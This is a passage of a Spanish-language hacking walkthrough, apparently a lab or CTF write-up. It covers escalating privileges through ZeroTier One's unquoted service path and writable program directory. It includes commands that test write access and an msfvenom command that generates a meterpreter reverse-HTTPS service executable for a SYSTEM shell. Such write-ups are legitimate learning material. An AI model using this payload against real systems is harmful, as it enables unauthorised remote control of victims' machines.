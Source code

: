 Ruta no citada y con espacios --> La ruta donde reside el ejecutable, tiene espacios y no está entre comillas. Esto es una vulnerabilidad de Unquoted Service Path, lo que significa que un atacante podría manipular la ejecución del servicio colocando un archivo malicioso en el sistema.
Permisos de Escritura --> El directorio donde se encuentra ZeroTier One.exe tiene permisos de escritura para los usuarios, lo que permite que los atacantes coloquen archivos maliciosos en esa carpeta.
Posible DDL Hijacking --> La combinación de los permisos de escritura y la vulnerabilidad de la ruta no citada (Unquoted Service Path) podría permitir que un atacante coloque una DLL maliciosa en la carpeta del servicio y que se cargue en lugar de las DLL legítimas, explotando la vulnerabilidad de DLL Hijacking.
Si vamos a la ruta mencionada, y probamos a crear un directorio llamado test por ejemplo, veremos que efectivamente tenemos permisos de escritura

```
cd C:\Program Files (x86)\Zero Tier\Zero Tier One\
mkdir test
dir
```

![Imagen042](42.jpeg)



Pues bueno, la idea está clara ¿no? Crearemos un ejecutable con msfvenom que nos de una Reverse Shell como NT/AUTHORITY SYSTEM si se está ejecutando como tal, así que hagámoslo. Lo haremos con Metasploit,para luego transferir más rápidamente el ejecutable al equipo víctima con upload, pero igualmente lo podemos crear el payload de tipo Shell sin ningún problema y transferirlo con un servidor web que nos montemos con Python

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=[IPObjetivo] LPORT=443 -f exe-service -o Zero.exe
```

![Imagen043](43.jpeg)
